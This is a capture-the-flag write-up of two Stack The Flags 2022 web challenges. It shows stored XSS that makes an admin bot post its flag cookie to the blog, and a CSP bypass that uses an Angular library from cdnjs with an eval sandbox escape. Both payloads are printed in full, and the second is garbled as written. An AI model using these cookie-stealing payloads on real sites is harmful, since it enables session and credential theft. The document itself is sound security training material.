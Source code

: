 ```yaml
---
title: Blogpost
CTF: Stack The Flags
Year: 2022
category: [web]
author: Hal0g3n
date: 8 Dec 2022

hide:
- footer
- toc
---
```


# Blogpost
by [Hal0g3n](https://github.com/Hal0g3n)
> Jaga created an internal social media platform for the company, can you leak anyone's information?
## Solution
First step, look through the code. This is where we observe `bot.js`, a curious little thing that will be the downfall of Jaga's social media platform. This script basically logs in as admin, sets the flag as a cookie and then visit our blog. How wonderful, sounds like a Cross Site Scripting attack (XSS).

Looking around `index.js` we see their Content Source Policy (CSP), dictating the source of their code.
```js
res.setHeader(
  'Content-Security-Policy',
  "default-src 'self'; script-src 'self' 'unsafe-inline' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
);
```
Very intriguing, espectially that `unsafe-inline` portion. This means we can inline scripts `<script>alert("maybe maybe not");</script>` as such and it would run too. But where can we place such malicious scripts...🤔What about as a blog post (the very name of the challenge!)?
Lo and behold, it works!
![](./assets/blogpost_alert.png)
So from here, we just simply set up a webhook and have our script make a request to it with the cookies as the body. The webhook will pick up the request, and see the flag cookie in the body. Ez right... except not really. The CSP above disables us from sending requests to other websites (`default-src: self`) and only allows requests to self. What do we do?

A hard thonking later, we realised that if we can post blogs, so can the admin! So we can make the admin post the cookies! Going to `templates/post.html` we see that posting a blog is just a post request. So our final blog to post is as below
```html
Title: Anything you want
Body:
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "/post", true);
xhr.setRequestHeader("Content-Type", "application/json");
var data = JSON.stringify({
	"content": "Wtv",
	"title": document.cookie	
})
xhr.send(data);
</script>
```

And boom, the admin makes a post unwillingly with his flag for all to see.
![](./assets/blogpost1.png)
Flag: `STF22{s1mpl3_p0st_xSs_:)}`

# Blogpost 2 (Buffing Blogpost)
by Halogen
> Look out for my blog posts, again!!
## Solution
Relooking through the code, we see the exact code again, line for line. However, there is one small change. Their CSP is set to `'unsafe-eval'` instead of `'unsafe-inline'`. This is problamatic, since our script injection doesn't work anymore 😢.

However, there is still the word 'unsafe' in it, so we found [Google's CSP checker](https://csp-evaluator.withgoogle.com/) and checked their CSP. It seems that including "https://cdnjs.cloudflare.com" has a severe vulnerability where you can include Angular Libraries to bypass CSP. So let's try that!
![](./assets/blogpost_csp.png)
We follow [Hacktricks CSP Bypass Tutorial](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass) to perform our XSS. First, we include the angular library in the title, and then inject a funny Angular Constructor into a div. This gives us access to the website's eval function, which will eval anything including our script.

<u>Payload</u>
```html
Title: Anything you want
Body:
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "/post", true);
xhr.setRequestHeader("Content-Type", "application/json");
var data = JSON.stringify({
	"title": "<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>",
	"content": <div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>
})
xhr.send(data);
</script>
```

And wow, it runs and we get an alert on visiting our blog. Now we just simply replace `alert(1)` with our code from above and the admin gives us the flag yet again in the form of a post.
![](./assets/blogpost2.png)

flag: `STF22{cl0uDfl4r3!!_@nd_@ngu1ar_ar3_de_b35+}`
